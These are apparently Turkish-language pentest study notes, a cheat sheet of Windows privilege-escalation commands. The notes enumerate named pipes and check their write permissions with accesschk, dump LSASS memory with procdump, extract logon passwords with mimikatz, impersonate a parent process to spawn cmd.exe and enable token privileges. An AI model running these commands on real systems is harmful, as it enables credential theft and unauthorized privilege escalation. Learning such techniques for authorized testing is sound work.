 ### 16-Powershell ile Name Pipe'ları Listeleme

```powershell-session
gci \\.\pipe\
```

### 17-**LSASS Named Pipe İzinlerini Gösterme** (Örnek LSASS)

```cmd-session
accesschk.exe /accepteula \\.\Pipe\lsass -v
```

### 18-**WindscribeService Named Pipe İzinlerini Kontrol Etme** (Yazma İzinleri)

```cmd-session
accesschk.exe -accepteula -w \pipe\WindscribeService -v
```

\pipe\SQLLocal\SQLEXPRESS01

accesschk.exe -accepteula -w \pipe\SQLLocal\SQLEXPRESS01 -v


### Procdump ile LSASS Proses Memory Dump

```cmd-session
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

### LSASS Dump'tan Logon Parolalarını Almak için Mimikatz'ı Kullanma

```cmd-session
mimikatz.exe

mimikatz # log

mimikatz # sekurlsa::minidump lsass.dmp

mimikatz # sekurlsa::logonpasswords

```

ImpersonateFromParentPid -ppid 1234 -command C:\Windows\System32\cmd.exe -cmdargs "/k"



### **SeTakeOwnershipPrivilege'ı Etkinleştirme**  (Disabled ise)

```powershell-session
Import-Module .\Enable-Privilege.ps1

.\EnableAllTokenPrivs.ps1
```
